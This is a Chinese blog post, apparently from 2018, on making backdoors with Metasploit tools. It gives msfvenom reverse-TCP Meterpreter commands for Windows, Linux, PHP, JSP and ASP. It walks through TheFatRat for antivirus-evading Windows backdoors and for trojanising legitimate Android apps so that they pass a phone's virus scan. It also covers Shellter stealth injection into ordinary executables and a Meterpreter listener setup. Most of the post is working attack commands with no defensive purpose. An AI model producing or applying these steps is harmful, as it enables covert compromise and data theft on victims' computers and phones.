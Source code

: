 ```yaml
---
title: Metasploit学习2-后门制作
date: 2018-04-15 20:15:19
categories: 安全
tags: [Metasploit,工具]
---
```


介绍下几个后门制作工具的使用，主要包括msfvenom，thefatrat(推荐)，shellter。

### msfvenom

msfvenom是msf框架中用来生成后门的工具。

<!--more-->

查看命令

```shell
➜  ~ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /opt/metasploit-framework/bin/../embedded/framework/msfvenom [options] <var=val>

Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload
    -f, --format        <format>     Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder       <encoder>    The encoder to use
    -a, --arch          <arch>       The architecture to use
        --platform      <platform>   The platform of the payload
        --help-platforms             List available platforms
    -s, --space         <length>     The maximum size of the resulting payload
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff'
    -i, --iterations    <count>      The number of times to encode the payload
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include
    -x, --template      <path>       Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out           <path>       Save the payload
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message

```



其中常用的几个参数

-l 显示模块列表。例如payloads, encoders
-p 选择需要使用的payload 
-a 选择目标架构
-e 编码方式
-i 指定payload的编码次数
-f 生成的文件格式
-o 保存生成的文件

常用的后门生成命令：

windows

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=8081 -f exe > shell.exe
```

LINUX

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=8081 -f elf > shell.elf
```

PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=8081 -f raw > shell.php 
```

JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.1 LPORT=8081 -f raw > shell.jsp
```

ASP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=8081 -f asp > shell.asp
```

这里LHOST为本地监听IP，LPORT为监听端口。



### TheFatRat

[TheFatRat](https://github.com/Screetsec/TheFatRat)是同样是一款生成后门的工具，操作简单，功能强大，非常值得推荐使用。

安装

```
git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh && ./setup.sh
```

使用

安装完成后会在桌面出现图标，直接点击即可使用，或者在命令行输入fatrat启动，启动时会进行配置检查，
打开后如图所示，按照功能输入数字即可。

![](http://7xo8y2.com1.z0.glb.clouddn.com/18-5-1/84514103.jpg)



如图，1为使用msfvenom制作后门，2、3、4、6为制作免杀windows后门，5制作安卓后门，7制作office后门，8为debian木马，9导入/创建自动监听，10跳转到msfconsole，11SearchSploit工具，13设置默认监听IP和端口。

生成windows免杀后门方式，选择选项6，再选择1，然后输入ip，端口和payload等信息。

![](http://7xo8y2.com1.z0.glb.clouddn.com/18-5-10/15237360.jpg)

然后会生成一个bat后门文件，将生成的后门放到windows中运行即可。

监听

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.101.1
set LPORT 8081
run
```

PS：在windows10上测试，使用各种方式生成的后门基本上都不能免杀，或者是不起作用。



### Android隐蔽后门

使用msfvenom生成的android后门一般只有一个图标，但是不具有欺骗性，在实际中很难让人放心安装，这里可以使用对普通应用加后门的方式达到隐蔽效果。使用TheFatRat可以生成隐蔽式的后门。

使用fatrat生成后门方法

1.打开fatrat后选择选项5 `Backdooring Original apk [Instagram, Line,etc] `

2.在新打开的终端中输入ip，端口和app的路径，这里已re文件管理器为例，然后选择payload和生成方式，如图:

![](http://7xo8y2.com1.z0.glb.clouddn.com/18-5-6/31430265.jpg)



成功生成后门后，在小米手机上安装时病毒扫描通过，并且可以正常运行，然后使msfconsole进行监听即可。

但是由于miui系统的权限管理，所以很多操作都需要授权，例如读取联系人短信等，否则msf是无法获取信息。另外需要注意的是并不是所有的app都可以成功。



### shellter

[Shellter](https://www.shellterproject.com/)是一款动态shellcode注入工具。可以将后门shell注入到正常程序中。

安装

在kali linux下可以直接通过源安装`apt-get install shellter`

使用	

在终端下输入shellter，会打开一个新的终端，输入选项A，代表自动模式，然后输入exe文件路径，如图

![](http://7xo8y2.com1.z0.glb.clouddn.com/18-5-8/20824279.jpg)

等待一会，会询问`Enable Stealth Mode?`是否开启隐身模式，即免杀，输入Y，然后选择payload，再输入IP和端口等信息。

![](http://7xo8y2.com1.z0.glb.clouddn.com/18-5-8/36196831.jpg)

然后就会自动生成后门程序。在windows10上测试，可以免杀，但是会弹框要求上传可疑文件进行分析，而且smartscreen筛选器会阻止运行，需要手动点击运行才可以。





参考:
[使用msfvenom生成木马用于监听别人的操作](https://blog.csdn.net/lijia111111/article/details/64124693)



